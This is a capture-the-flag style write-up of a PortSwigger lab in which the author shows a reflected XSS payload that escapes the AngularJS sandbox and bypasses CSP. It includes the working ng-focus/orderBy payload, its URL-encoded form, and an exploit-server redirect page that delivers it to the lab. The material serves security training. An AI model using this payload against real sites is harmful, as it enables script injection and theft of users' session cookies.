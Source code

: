 # Reflected XSS with AngularJS sandbox escape and CSP

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp), you'll learn: Reflected XSS with AngularJS sandbox escape and CSP! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★★★☆☆☆

## Background

This lab uses [CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) and [AngularJS](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection).

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses CSP, escapes the AngularJS sandbox, and alerts `document.cookie`.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101080626.png)

In here, we can see there is a search box.

Let's search something:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101080701.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101080717.png)

As you can see, our input is reflected to the web page.

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101080822.png)

In here, we also can see the CSP (Content Security Policy) is enabled.

```
Content-Security-Policy: default-src 'self'; script-src 'self'
```

In this case, it'll **only allow scripts to be loaded from the same origin as the page itself.**

**Now, let's try to inject some HTML tags:**
```html
<input autofocus>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101081637.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101081647.png)

Yep we can.

**Next, we need to bypass the AngularJS sandbox and CSP:**
```html
<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x
%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x
```

- First, we use `ng-focus` event in AngularJS to create a focus event that bypasses CSP.
- Then, use `$event`, which is an AngularJS variable that references the event object.
- After that, the `path` property is specific to Chrome and contains an array of elements that triggered the event. The last element in the array contains the `window` object.
- Finally, use the `orderBy` filter, and the `:` is the argument that is being sent to the filter. In the argument, instead of calling the `alert` function directly, we assign it to the variable `z`. The function will only be called when the `orderBy` operation reaches the `window` object in the `$event.path` array. This means it can be called in the scope of the window without an explicit reference to the `window` object, effectively bypassing AngularJS's `window` check.

**Now, we can go the exploit server, host our payload and deliver to victim:**
```html
<html>
    <head>
        <title>XSS-28</title>
    </head>
    <body>
        <script>
            window.location.replace("https://0a6b004b04d03a63c09d548600500044.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x");
        </script>
    </body>
</html>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101084134.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-28/images/Pasted%20image%2020230101084141.png)

Nice!

# What we've learned:

1. Reflected XSS with AngularJS sandbox escape and CSP